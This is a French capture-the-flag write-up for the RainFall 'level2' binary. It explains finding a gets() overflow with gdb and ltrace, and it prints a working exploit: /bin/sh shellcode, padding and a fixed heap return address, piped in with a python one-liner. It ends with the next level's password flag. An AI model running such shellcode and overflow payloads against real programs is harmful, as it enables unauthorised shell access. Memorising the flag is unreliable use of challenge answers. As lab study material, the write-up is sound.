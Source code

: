 # level2


## description
- Il y a un exécutable **level2**.Lorsqu'on l'exécute, il prends des caractères sur **stdin** puis l'affiche.

## Résolution

Avec gdb disas, il y a les lignes suivantes qui nous intéresse.

       0x080484ed <+25>:    call   0x80483c0 <gets@plt>
       0x080484fb <+39>:    and    eax,0xb0000000
       0x08048500 <+44>:    cmp    eax,0xb0000000


On voit qu'il y a l'utilisation de **gets**. en utilisant le même **buffer overflow** que sur l'exercice 1 pour modifier l'adresse de retour.
En testant l'overflow, on voit que la taille du buffer est **80**.

Cependant il y a une comparaison entre l'adresse de retour  et 0xb0000000 pour être sur que l'adresse n'est pas une adresse de la stack

On peut voir que le buffer est copié grâce a la fonction **strdup**.
```c

      0x08048538 <+100>:   call   0x80483e0 <strdup@plt>

```
Strdup utilise malloc qui stocke sur la heap.
On peut voir que le malloc retourne toujours l'adresse **0x0804a008**  :
```

    ltrace ./level2
    __libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
    fflush(0xb7fd1a20)                               = 0
    gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)    = 0xbffff6fc
    puts("")                                         = 1
    strdup("")                                       = 0x0804a008
    +++ exited (status 8) +++
    level2@RainFall:~$

```

le shellcode que l'on va utilise viens de ce [site](http://shell-storm.org/shellcode/files/shellcode-575.php).

    \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

La taille du buffer etait de 80 et que notre shell fait 21 bytes, on va ajouter 59 bytes de padding apres notre shellcode puis on finit avec l'adresse de retour.

    python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit &&  cat /tmp/exploit - | ./level2
le flag du niveau.

    cat /home/user/level3/.pass
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
